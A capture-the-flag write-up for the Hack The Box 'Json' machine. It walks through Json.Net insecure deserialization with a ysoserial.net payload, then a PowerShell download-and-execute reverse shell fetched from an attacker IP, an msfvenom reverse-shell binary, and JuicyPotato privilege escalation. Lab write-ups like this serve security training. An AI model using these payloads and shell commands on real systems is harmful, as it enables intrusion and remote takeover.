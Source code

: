 ## JSON

https://app.hackthebox.com/machines/Json

### User Flag
`POST /api/token` is the login request. If we remove the JSON on body we receive this error:
```
{"Message":"An error has occurred.","ExceptionMessage":"Object reference not set to an instance of an object.","ExceptionType":"System.NullReferenceException","StackTrace":"   at DemoAppExplanaiton.Controllers.AccountController.Login(Usuario login) in C:\\Users\\admin\\source\\repos\\DemoAppExplanaiton\\DemoAppExplanaiton\\Controllers\\AccountController.cs:line 24\r\n   at lambda_method(Closure , Object , Object[] )\r\n   at System.Web.Http.Controllers.ReflectedHttpActionDescriptor.ActionExecutor.<>c__DisplayClass6_2.<GetExecutor>b__2(Object instance, Object[] methodParameters)\r\n   at System.Web.Http.Controllers.ReflectedHttpActionDescriptor.ExecuteAsync(HttpControllerContext controllerContext, IDictionary`2 arguments, CancellationToken cancellationToken)\r\n--- End of stack trace from previous location where exception was thrown ---\r\n   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()\r\n   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)\r\n   at System.Web.Http.Controllers.ApiControllerActionInvoker.<InvokeActionAsyncCore>d__1.MoveNext()\r\n--- End of stack trace from previous location where exception was thrown ---\r\n   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()\r\n   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)\r\n   at System.Web.Http.Controllers.ActionFilterResult.<ExecuteAsync>d__5.MoveNext()\r\n--- End of stack trace from previous location where exception was thrown ---\r\n   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()\r\n   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)\r\n   at System.Web.Http.Dispatcher.HttpControllerDispatcher.<SendAsync>d__15.MoveNext()"}
```

Credentials admin:admin works on login.

Looking through requests, /api/Account catches our eye. We have oauth cookie and Bearer that has the same value.
```
eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=

{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
```

If we change this to an invalid base64 format and put on bearer, we receive this error:
```
{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}
```

<br>

💡 One of the primary signs for insecure deserialization is having a serialized object encoded in base64 and put into a cookie.   When the Cookie goes back to the application, it deserializes it and executes its content. There no security/safety controls for checking the UNTRUSTED data.

<br>

Now that we know that the website is using Json.net, we can use [ysoserial.net](https://github.com/pwntester/ysoserial.net).  
This tool works best on a Windows Machines.

Creating a payload to ping us.
```
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "ping -c 10.10.14.5" -t

{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c ping -c 10.10.14.5']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Encode the output to base64 and replace the "Bearer" header.

We can use this to get the reverse shell, but encoded in base64 since it uses ''
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1')"

# For some reason we need to convert to UTF-16
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w 0

# Replace the previous output with this command
powershell -EncodedCommand SUVYKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuZG93bmxvYWRTdHJpbmcoJ2h0dHA6Ly8xMC4xMC4xNC41L0ludm9rZS1Qb3dlclNoZWxsVGNwLnBzMScp

# You could use two steps reverse
powershell -c Invoke-WebRequest -Uri http://10.2.117.185:8000/shell.exe -OutFile C:\tmp\reverse.ps1
powershell C:\tmp\reverse.ps1
```

<br>

### Privilege Escalation
SeImpersonatePrivilege is enabled, so we can use JuicyPotato.

```
powershell.exe -command iwr -Uri http://10.10.14.5/JuicyPotato.exe -OutFile JuicyPotato.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1337 -a x64 --platform Windows -f exe -o shell.exe

powershell.exe -command iwr -Uri http://10.10.14.5/shell.exe -OutFile shell.exe

.\JuicyPotato.exe -t * -p .\shell.exe -l 4000 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

<br>

We can use this to print the decrypted password from SyncLocation.exe.
```C#
use System.Windows.Forms;

...
private static void Main()
{
	[PUT DECRYPTION CODE]
	MessageBox.Show(userName + ":" + password);
	...
}

